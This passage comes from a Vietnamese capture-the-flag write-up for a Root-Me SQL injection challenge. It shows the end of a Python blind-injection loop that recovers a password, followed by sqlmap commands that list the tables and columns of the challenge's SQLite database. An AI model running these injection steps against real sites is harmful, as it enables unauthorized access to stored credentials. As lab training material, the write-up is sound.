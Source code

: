 ```
            passwd+=c
            i+=1
            print(passwd)
            break
```
![img](./img/5.png)

## Solution 2: sqlmap
Biết được param để exploit và DMBS ta có thể sử dụng 1 tool khá phổ biến để test lỗ hổng SQLi đó là ``sqlmap`` . Trước tiên là extract ra tên của tables.

link: https://github.com/sqlmapproject/sqlmap

```
./sqlmap.py --dbms=SQLite --data='username=FUZZ&password=FUZZ' --tables -u "challenge01.root-me.org/web-serveur/ch10/"
```
![img](./img/6.png)

Tiếp theo là extract ra tên và số cột trong ``users``

```
./sqlmap.py --dbms=SQLite -D SQLite_masterdb -T users --columns --data='username=FUZZ&password=FUZZ' -u "challenge01.root-me.org/web-serveur/ch10/"
```

![img](./img/7.png)
